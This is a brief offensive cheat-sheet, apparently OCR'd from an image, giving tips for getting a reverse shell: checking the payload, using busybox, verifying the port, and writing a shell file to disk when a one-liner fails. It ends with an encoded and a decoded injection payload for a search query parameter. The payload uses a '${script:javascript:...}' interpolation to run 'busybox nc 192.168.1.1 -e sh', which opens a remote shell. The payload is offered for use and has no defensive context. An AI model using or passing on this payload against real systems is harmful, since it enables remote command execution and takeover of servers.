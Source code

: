 4 Rules when trying to get Reverse Shell

- Is your payload correct? busy box?

- Is your port correct?

- If you can't execute shell via 1 liner. Write reverse shell file to file system then execute.

- what kind of reverse shell? 

Encoded:search?query="%24{script%3Ajavascript%3Ajava.lang.Runtime.getRuntime().exec('busybox nc 192.168.1.1 -e sh')}"
Decoded:search?query="${script:javascript:java.lang.Runtime.getRuntime().exec('busybox nc 192.168.1.1 -e sh')}"
